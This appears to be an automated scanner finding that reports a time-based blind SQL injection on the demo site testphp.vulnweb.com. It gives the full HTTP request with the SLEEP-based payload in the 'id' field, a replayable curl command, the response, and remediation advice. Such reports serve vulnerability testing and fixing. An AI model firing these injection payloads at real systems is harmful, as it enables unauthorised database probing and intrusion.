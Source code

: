 ### Time-Based Blind SQL Injection (time-based-sqli-fuzzing-16ffd0f6fad6091dc586c722a03043e2ba868f707300d17ab049376bcc0ba0e0) found on testphp.vulnweb.com

----
**Details**: **time-based-sqli-fuzzing-16ffd0f6fad6091dc586c722a03043e2ba868f707300d17ab049376bcc0ba0e0** matched at testphp.vulnweb.com

**Protocol**: HTTP

**Full URL**: http://testphp.vulnweb.com/AJAX/infotitle.php

**Timestamp**: Thu Jun 12 23:21:59 +0800 WITA 2025

**Template Information**

| Key | Value |
| --- | --- |
| Name | Time-Based Blind SQL Injection |
| Authors | wahyuhadi |
| Tags | time-based-sqli, sqli, dast, blind |
| Severity | critical |
| Description | Time-Based SQL Injection is a type of Blind SQL Injection attack where an attacker determines database vulnerabilities by sending queries that force the database to delay its response. <br>If the response time changes, the attacker can infer whether the injected SQL query was successfully executed, even though there is no direct output from the database.<br> |
| tech | sql |
| severtity | high (7.5) |
| cvss-3.1 | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| cvss-3.1-link | https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |

**Request**
```http
POST /AJAX/infotitle.php HTTP/1.1
Host: testphp.vulnweb.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Content-Length: 34
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Cookie: mycookie=3
Origin: http://testphp.vulnweb.com
Referer: http://testphp.vulnweb.com/AJAX/index.php

id=if(now()=sysdate(),SLEEP(7),0)&
```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Content-Type: text/xml;charset=UTF-8
Date: Thu, 12 Jun 2025 15:21:59 GMT
Server: nginx/1.19.0
X-Powered-By: PHP/5.6.40-38+ubuntu20.04.1+deb.sury.org+1

<iteminfo></iteminfo>
```
**Metadata:**

- path: if(now()=sysdate(),SLEEP(7),0)

**Fixing**

- Prepared statements ensure that user input is treated as data, not executable SQL code. This completely prevents SQL injection.
- Stored procedures execute SQL commands safely within the database, reducing the risk of injection when properly implemented.
- Never display database error messages to users.
- Ensure that the database user only has necessary privileges (e.g., no DROP, ALTER, EXECUTE permissions for web users).




**CURL command**
```sh
curl -X 'POST' -d 'id=if(now()=sysdate(),SLEEP(7),0)&' -H 'Accept: */*' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.5' -H 'Connection: keep-alive' -H 'Content-Length: 4' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: mycookie=3' -H 'Host: testphp.vulnweb.com' -H 'Origin: http://testphp.vulnweb.com' -H 'Referer: http://testphp.vulnweb.com/AJAX/index.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' 'http://testphp.vulnweb.com/AJAX/infotitle.php'
```


----

Eagle Pulsar Team :  > From Home With Love